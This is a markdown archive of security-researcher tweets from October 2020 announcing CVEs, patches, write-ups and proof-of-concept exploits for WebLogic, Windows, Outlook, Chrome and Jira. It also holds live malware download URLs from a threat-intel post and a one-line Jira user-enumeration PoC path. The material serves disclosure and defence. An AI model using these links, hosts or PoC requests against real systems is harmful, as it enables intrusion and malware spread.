


# hackerfantastic
**https://twitter.com/hackerfantastic/status/1322596727690506241 _at 2020-10-31 17:50:07_**
<blockquote>
Ah good, in the PoC notes for CVE-2020-14882 posted on github here (https://t.co/YkUA8BnmeE) links to a Chinese vendors homepage stating that the patch for this new WebLogic RCE is ineffective and can be bypassed as 0day. Disable "console/console.portal"  https://t.co/C1LUMIlVun
</blockquote>

* https://github.com/jas502n/CVE-2020-14882
* https://translate.google.com/translate?hl=&sl=auto&tl=en&u=https%3A%2F%2Fhelp.aliyun.com%2Fnoticelist%2Farticleid%2F1060738870.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>23</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1322244795155288064 _at 2020-10-30 18:31:39_**
<blockquote>
NEW: Google discloses Windows zero-day exploited in the wild

-Impacts Windows 7 up to the latest Windows 10
-Used together with a Chrome zero-day (patched last week)

Windows zero-day CVE: CVE-2020-17087
Chrome zero-day CVE: CVE-2020-15999 

https://t.co/hddB1UvqXc https://t.co/y3R9sPU7z7
</blockquote>

* https://www.zdnet.com/article/google-discloses-windows-zero-day-exploited-in-the-wild/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---

# AdmVonSchneider
**https://twitter.com/AdmVonSchneider/status/1322219820423798786 _at 2020-10-30 16:52:25_**
<blockquote>
RT @benhawkes: In addition to last week's Chrome/freetype 0day (CVE-2020-15999), Project Zero also detected and reported the Windows kernel…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>182</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1322206828202127360 _at 2020-10-30 16:00:47_**
<blockquote>
In addition to last week's Chrome/freetype 0day (CVE-2020-15999), Project Zero also detected and reported the Windows kernel bug (CVE-2020-17087) that was used for a sandbox escape. The technical details of CVE-2020-17087 are now available here: https://t.co/bO451188Mk
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=2104

<table><tr>
<td>Quotes: <code>28</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>176</code></td>
<td>Favorites: <code>362</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1321492206067339264 _at 2020-10-28 16:41:08_**
<blockquote>
PoC code for CVE-2020-16939 Windows Group Policy DACL Overwrite Privilege Escalation  https://t.co/8oi0NkPjMP #Pentesting #CVE #Windows #PrivilegeEscalation #CyberSecurity #Infosec https://t.co/8ugMwQNpnx
</blockquote>

* https://github.com/rogue-kdc/CVE-2020-16939

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>25</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1321448718894125057 _at 2020-10-28 13:48:20_**
<blockquote>
The Memory Process File System (MemProcFS) : an easy and convenient way of viewing physical memory as files in a virtual file system (Analyze memory dump files, live memory via DumpIt or WinPMEM, live memory in read-write mode ): https://t.co/R9RMkvbUra credits @UlfFrisk https://t.co/gbrg43gyHd
</blockquote>

* https://github.com/ufrisk/MemProcFS

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>142</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1321446900961144834 _at 2020-10-28 13:41:07_**
<blockquote>
Exploring In-depth ELF(The Extensible &amp; Linkable Format): 
https://t.co/CJJUeQ1sxQ credits @ghidraninja 

ELFkickers: A collection of programs that access and manipulate ELF files: https://t.co/FbK107IFlK credits @BR903

How programs get run: ELF binaries: https://t.co/dHEswrK72n
</blockquote>

* https://www.youtube.com/watch?v=nC1U1LJQL8o
* https://github.com/BR903/ELFkickers/
* https://lwn.net/Articles/631631/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1321441707045445633 _at 2020-10-28 13:20:28_**
<blockquote>
Procrustes : A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked : https://t.co/Sq2sLFS2qc credits @nil0x42 https://t.co/ew0ZjZDRxZ
</blockquote>

* https://github.com/vp777/procrustes

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1321390624042442753 _at 2020-10-28 09:57:29_**
<blockquote>
Analysis of CVE-2020-14882
Weblogic RCE via HTTP CVSS 9.8/10
Hope you enjoy it ;)
Thanks an anonymous man for supporting!
https://t.co/Olhn9oye0r
</blockquote>

* https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>250</code></td>
<td>Favorites: <code>644</code></td>
</tr></table>

---

# dev0exp
**https://twitter.com/dev0exp/status/1321350954223099904 _at 2020-10-28 07:19:51_**
<blockquote>
Very surprising writeup!
CVE-2020-6449, which was considered impossible to be exploitable-An full exploit code was posted. 
#CVE20206469 #Chrome #Blink #Exploit #RCE 

report:
https://t.co/x4oyr4xYzW

exploit code:
https://t.co/CapH7EmKD6
</blockquote>

* https://securitylab.github.com/research/CVE-2020-6449-exploit-chrome-uaf
* https://github.com/github/securitylab/tree/main/SecurityExploits/Chrome/blink/CVE-2020-6449

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1321159014252597249 _at 2020-10-27 18:37:09_**
<blockquote>
GitHub - rogue-kdc/CVE-2020-16939: PoC code for CVE-2020-16939 Windows Group Policy DACL Overwrite Privilege Escalation - https://t.co/JCs5qb6d7L
</blockquote>

* https://github.com/rogue-kdc/CVE-2020-16939

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1321158032508788736 _at 2020-10-27 18:33:15_**
<blockquote>
Tiny symmetric crypto library for Zig. Compiles to a tiny WebAssembly module, too. https://t.co/EXR8qjllL2
</blockquote>

* https://github.com/jedisct1/zig-charm

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# mmolgtm
**https://twitter.com/mmolgtm/status/1321135708858470402 _at 2020-10-27 17:04:33_**
<blockquote>
In this post I'll go through the exploit of CVE-2020-6449, a use-after-free in blink that I found in March, and break PartitionAlloc in the process: https://t.co/MG7HRkGZpk
</blockquote>

* https://securitylab.github.com/research/CVE-2020-6449-exploit-chrome-uaf

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1321123122226040832 _at 2020-10-27 16:14:32_**
<blockquote>
Using the Windows Group Policy client to escalate privileges. @rogue_kdc provides a guest blog and PoC showing how CVE-2020-16939 can be abused by attackers to obtain full permissions on the contents of a folder. https://t.co/0PyMPWkM8y
</blockquote>

* https://bit.ly/3jzOoka

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# richinseattle
**https://twitter.com/richinseattle/status/1320495211659886597 _at 2020-10-25 22:39:26_**
<blockquote>
Based on the rate of research, you could say fuzzing is kind of a big deal. So many papers are being published it’s hard to track it all, let alone read it all. These repos are doing a good job indexing the papers:

https://t.co/qOVhiyT6gt 

https://t.co/taRVPm6iGE
</blockquote>

* https://github.com/0xricksanchez/paper_collection
* https://github.com/wcventure/FuzzingPaper

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>143</code></td>
<td>Favorites: <code>432</code></td>
</tr></table>

---

# 0xsudip
**https://twitter.com/0xsudip/status/1320200680754167810 _at 2020-10-25 03:09:05_**
<blockquote>
Prototype Pollution an underrated vulnerability:
https://t.co/siMjL7ibaQ
https://t.co/s5stCdqziL
Client Side Protype Pollution Scanner:
https://t.co/4vdybeHceD
AST Injection, Prototype Pollution to RCE:
https://t.co/AFiFbnpEBr
#BugBountyTip #Hacking #Pentesting 
@debangshu_kundu
</blockquote>

* https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications
* https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/
* https://github.com/msrkp/PPScan
* https://blog.p6.is/AST-Injection/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>138</code></td>
<td>Favorites: <code>248</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1320158900251865089 _at 2020-10-25 00:23:03_**
<blockquote>
Active DDoS malware payload detected:
http://172.245.7.141/b
http://172.245.7.141/c
http://172.245.7.141/w

Target:
Tenda AC1200 router RCE (CVE-2019-5071)
Tenda AC1900 router RCE (CVE-2020-10987)
WiFiDog RCE

Exploit attempt source IP: 172.245.7.141 (🇺🇸)
#threatintel https://t.co/NFQxJamSzE
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1319734647576723461 _at 2020-10-23 20:17:14_**
<blockquote>
RT @scriptjunkie1: youtube-dl was taken down by RIAA via DMCA. You know, the one that was archived here:
https://t.co/VlbqjXxcpE
and is sti…
</blockquote>

* https://web.archive.org/web/20201018130325/https://codeload.github.com/ytdl-org/youtube-dl/zip/master

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>504</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# scriptjunkie1
**https://twitter.com/scriptjunkie1/status/1319731273477328896 _at 2020-10-23 20:03:49_**
<blockquote>
youtube-dl was taken down by RIAA via DMCA. You know, the one that was archived here:
https://t.co/VlbqjXxcpE
and is still live here:
https://t.co/OtmtlBjCIj
with hash e0ece0221b389c8054cb86661d8f9fb7408d8f4dbc17cc413715dd61ad825133 just in case you wanted to check it for malware
</blockquote>

* https://web.archive.org/web/20201018130325/https://codeload.github.com/ytdl-org/youtube-dl/zip/master
* https://pypi.org/project/youtube_dl/#files

<table><tr>
<td>Quotes: <code>74</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>504</code></td>
<td>Favorites: <code>1050</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1319643115641135111 _at 2020-10-23 14:13:31_**
<blockquote>
ARM-X Firmware Emulation Framework - a collection of scripts, kernels and filesystems to be used with QEMU to emulate ARM/Linux IoT devices : https://t.co/hWsjnZzEUv credits @therealsaumil 

Case-study : Emulating the Tenda AC15 Wi-Fi Router with ARM-X : https://t.co/6WSMgs8QSl https://t.co/5cxZJj6iC4
</blockquote>

* https://github.com/therealsaumil/armx
* https://github.com/therealsaumil/armx/blob/master/docs/emulating-tenda-ac15.md

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1319641016740134914 _at 2020-10-23 14:05:10_**
<blockquote>
Adversarial ML Threat Matrix : https://t.co/YQRlkQOrsS 

More : https://t.co/GBRGWHzRbo

Adversarial Machine Learning 101 : https://t.co/SJl7uVk7Xf
</blockquote>

* https://github.com/mitre/advmlthreatmatrix
* https://github.com/mitre/advmlthreatmatrix/blob/master/pages/adversarial-ml-threat-matrix.md#adversarial-ml-threat-matrix
* https://github.com/mitre/advmlthreatmatrix/blob/master/pages/adversarial-ml-101.md#adversarial-machine-learning-101

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---

# ayatokura
**https://twitter.com/ayatokura/status/1319587705462747137 _at 2020-10-23 10:33:20_**
<blockquote>
⚠️VS Codeで、悪意のある「package.json」ファイルを開くと、リモートコード実行される脆弱性が報告されています。対処方法として最新版1.50.1に更新しておきましょう‼️
🌐CVE-2020-17023 Visual Studio JSON Remote Code Execution Vulnerability
https://t.co/QPYQzDqKm7
#VSCodejp #VSCode快適生活 https://t.co/70XRMOSxkj
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-17023

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# throbbin_robbin
**https://twitter.com/throbbin_robbin/status/1319533841325920256 _at 2020-10-23 06:59:18_**
<blockquote>
Hey Twitter! My RFC got merged! @Linux on 64-bit @Arm has won the Rust lang Core, Infra and Compiler team approvals to become a Tier-1 @rustlang target platform! 🙂 See: https://t.co/CShEpHQqWH
</blockquote>

* https://github.com/rust-lang/rfcs/pull/2959#issuecomment-714786434

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# JLLeitschuh
**https://twitter.com/JLLeitschuh/status/1319494584532074498 _at 2020-10-23 04:23:18_**
<blockquote>
Using a custom #CodeQL query, I found a high severity local privilege escalation vulnerability in Jetty due to a temp directory hijacking bug.

CVE-2020-27216: CVSSv3.1 7.8/10

https://t.co/hrqHzbl84F
</blockquote>

* https://github.com/eclipse/jetty.project/security/advisories/GHSA-g3wg-6mcf-8jj6

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>8</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1319143436159647744 _at 2020-10-22 05:07:58_**
<blockquote>
[Vulnerability warning] CVE-2020-14882 + CVE-2020-14883 = one Get request RCE!  Please update immediately! https://t.co/rej5WheNUY https://t.co/Jy1cAwfj0r
</blockquote>

* https://www.oracle.com/security-alerts/cpuoct2020.html

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>253</code></td>
</tr></table>

---

# KentonVarda
**https://twitter.com/KentonVarda/status/1319017350180503557 _at 2020-10-21 20:46:57_**
<blockquote>
🚨ICYMI: Chrome patched a zero-day today (CVE-2020-15999) that's being actively exploited in the wild. Update now.🚨

Note Firefox uses the same vulnerable library (freetype). I can't find any info on whether Firefox is vulnerable or if they've pushed any kind of fix...
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1318914772918767619 _at 2020-10-21 13:59:20_**
<blockquote>
Atlassian Jira unauthenticated user enumeration (CVE-2020-14181)! Versions affected:

Jira &lt; 7.13.6
8.0.0 ≤ Jira &lt; 8.5.7
8.6.0 ≤ Jira &lt; 8.12.0

Discovered by Mikhail Klyuchnikov.

Advisory: https://t.co/Pm5Vp1JvzV

/secure/ViewUserHover.jspa?username=test
The PoC ☝️ https://t.co/jfHgSzpFAB
</blockquote>

* https://jira.atlassian.com/browse/JRASERVER-71560

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>174</code></td>
<td>Favorites: <code>418</code></td>
</tr></table>

---

# certbund
**https://twitter.com/certbund/status/1318855168042074117 _at 2020-10-21 10:02:29_**
<blockquote>
Die am 13.10. von Microsoft bereitgestellten #Sicherheitsupdates zur Behebung der kritischen #RCE #Schwachstelle CVE-2020-16952 in #SharePoint 2013-2019 wurden bislang auf fast keinem System in Deutschland eingespielt.
PoC #Exploit-Code ist öffentlich verfügbar! #PATCHNOW! https://t.co/v6IeX7zLya
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# DanielFore
**https://twitter.com/DanielFore/status/1318679427769757697 _at 2020-10-20 22:24:10_**
<blockquote>
Tracking our progress with Flatpaking all the things here: https://t.co/gpZHzCBolp
</blockquote>

* https://github.com/orgs/elementary/projects/79

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# GoSecure_Inc
**https://twitter.com/GoSecure_Inc/status/1318653999600500746 _at 2020-10-20 20:43:07_**
<blockquote>
Our CVE-2020-1013 #LPE #PoC is out: WSuspicious
Available here: https://t.co/d3aZgLKi4v
Blog post reminder: https://t.co/wztiqQ7bj8
Research on #WSUS is still ongoing btw 🤫
</blockquote>

* https://github.com/GoSecure/WSuspicious/
* https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1318650517124427777 _at 2020-10-20 20:29:17_**
<blockquote>
BREAKING: Google releases Chrome security update to patch actively exploited zero-day

-Google Chrome 86.0.4240.111 released with a fix
-0day is CVE-2020-15999 (a heap buffer overflow in the FreeType font rendering library)

https://t.co/K73F1MV64T https://t.co/f1mCDUytbC
</blockquote>

* https://www.zdnet.com/article/google-releases-chrome-security-update-to-patch-actively-exploited-zero-day/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---

# bascule
**https://twitter.com/bascule/status/1318647927485702150 _at 2020-10-20 20:18:59_**
<blockquote>
Concrete: fully homomorphic encryption (FHE) library written in @rustlang that implements Zama's variant of TFHE (based on LWE/RLWE)
https://t.co/RaBjCdn1mQ
</blockquote>

* https://github.com/zama-ai/concrete

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1318640422571266048 _at 2020-10-20 19:49:10_**
<blockquote>
Project Zero discovered and reported an actively exploited 0day in freetype that was being used to target Chrome. A stable release that fixes this issue (CVE-2020-15999) is available here: https://t.co/ZRQe72Qfkh
</blockquote>

* https://chromereleases.googleblog.com/2020/10/stable-channel-update-for-desktop_20.html

<table><tr>
<td>Quotes: <code>44</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>230</code></td>
<td>Favorites: <code>584</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1318588907093712896 _at 2020-10-20 16:24:28_**
<blockquote>
Material for the training "Developing Burp Suite Extensions – From Manual Testing to Security Automation" :  https://t.co/srZZuAYeoN

bradamsa : Burp Suite extension to generate Intruder payloads using Radamsa : https://t.co/hIvdTycS2h  credits @Doyensec https://t.co/e8RhAI7PxH
</blockquote>

* https://github.com/doyensec/burpdeveltraining
* https://github.com/ikkisoft/bradamsa

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1318581168313311232 _at 2020-10-20 15:53:43_**
<blockquote>
RT @Adam_pi3: CVE-2020-16898 – Exploiting "Bad Neighbor" vulnerability. My very detailed write-up with all the caveats + PoC code
https://t…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>363</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1318575783414095872 _at 2020-10-20 15:32:19_**
<blockquote>
stegbrute : Fast Steganography bruteforce tool written in Rust useful for CTF's : https://t.co/PfVtAH9Eme credits @R4yDev
</blockquote>

* https://github.com/R4yGM/stegbrute

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# hkashfi
**https://twitter.com/hkashfi/status/1318566290647322624 _at 2020-10-20 14:54:36_**
<blockquote>
CVE-2020-13957 is a pretty handy bug. Easy RCE on Solr  6/7/8x versions, pre-auth often. If the Solr version is old enough, you can even chain it with CVE-2017-3164 to exploit non-exposed instances too! 

Never expose your Solr API/Admin interface, even internally. It's BAD idea!
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1318535076926222341 _at 2020-10-20 12:50:34_**
<blockquote>
A few words about the CVE-2020-4280 - IBM QRadar Java Deserialization and the patch of it

https://t.co/oZ39hxEfr0
</blockquote>

* https://medium.com/@testbnull/cve-2020-4280-ibm-qradar-java-deserialization-anlysis-and-bypass-c3fe57207057

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# OPOSEC
**https://twitter.com/OPOSEC/status/1318446862244995072 _at 2020-10-20 07:00:02_**
<blockquote>
git Remote Code Execution (CVE-2018-11235). https://t.co/8zhvnaU0at PoC: https://t.co/aCu9fU1nod | https://t.co/8Lt4eMKLc9 (+) #Security #225 (2018)
</blockquote>

* https://staaldraad.github.io/post/2018-06-03-cve-2018-11235-git-rce/
* https://github.com/Rogdham/CVE-2018-11235
* http://bit.ly/2xUIKqj

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# 3XS0
**https://twitter.com/3XS0/status/1317993153228607490 _at 2020-10-19 00:57:09_**
<blockquote>
PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility)  https://t.co/LzqwX7rOKx  #Pentesting #CVE #Vulnerability #CyberSecurity #Infosec https://t.co/FgSL7mFp3A
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# caliskanfurkan_
**https://twitter.com/caliskanfurkan_/status/1317759214010458112 _at 2020-10-18 09:27:34_**
<blockquote>
PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility)

https://t.co/qxVcafJCCA
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>22</code></td>
</tr></table>

---

# SBousseaden
**https://twitter.com/SBousseaden/status/1317577805660565511 _at 2020-10-17 21:26:42_**
<blockquote>
added to the EVTX repo a section that will host selfies of malwares employing at least 3 different TTPs (e.g. Persistence, Injection, UAC Bypass) at once: 

https://t.co/dSUmFcNc9i https://t.co/sdPZhplpAA
</blockquote>

* https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES/tree/master/AutomatedTestingTools/Malware

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1317356809787592705 _at 2020-10-17 06:48:33_**
<blockquote>
Hacker publishes a detailed explanation of the exploitation of Windows TCP/IP remote code execution (CVE-2020-16898) vulnerability.

https://t.co/P3HuTggpYY
</blockquote>

* http://blog.pi3.com.pl/?p=780

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>283</code></td>
<td>Favorites: <code>546</code></td>
</tr></table>

---

# Adam_pi3
**https://twitter.com/Adam_pi3/status/1317178701457575936 _at 2020-10-16 19:00:49_**
<blockquote>
CVE-2020-16898 – Exploiting "Bad Neighbor" vulnerability. My very detailed write-up with all the caveats + PoC code
https://t.co/MhKxEvLig4
</blockquote>

* http://blog.pi3.com.pl/?p=780

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>363</code></td>
<td>Favorites: <code>733</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1317143503294562306 _at 2020-10-16 16:40:57_**
<blockquote>
PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility)  https://t.co/v8HtnNQhaz  #Pentesting #CVE #Vulnerability #CyberSecurity #Infosec https://t.co/u0OGly0R1p
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>19</code></td>
</tr></table>

---

# _spxn
**https://twitter.com/_spxn/status/1317037983325802496 _at 2020-10-16 09:41:39_**
<blockquote>
GitHub - 0neb1n/CVE-2020-16947: PoC of CVE-2020-16947

※PoCが公開されています。

肝心のペイロードがファイル形式のせいか文字化けしていて読めませんね…本物かはわからないですが、このペイロードを含めたメールを開くとRCEのトリがになるのかな

https://t.co/DDtLxCo5A3
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# quarkslab
**https://twitter.com/quarkslab/status/1317034233236520960 _at 2020-10-16 09:26:45_**
<blockquote>
[BLOG] Beware the Bad Neighbor: Analysis and PoC of the Windows IPv6 Router Advertisement Vulnerability (CVE-2020-16898) https://t.co/YQqarGG6Hy by @fdfalcon
</blockquote>

* https://blog.quarkslab.com/beware-the-bad-neighbor-analysis-and-poc-of-the-windows-ipv6-router-advertisement-vulnerability-cve-2020-16898.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>200</code></td>
</tr></table>

---

# Anastasis_King
**https://twitter.com/Anastasis_King/status/1317027491354214401 _at 2020-10-16 08:59:57_**
<blockquote>
CVE-2020-16947 : Writeup &amp; PoC of Outlook RCE vuln

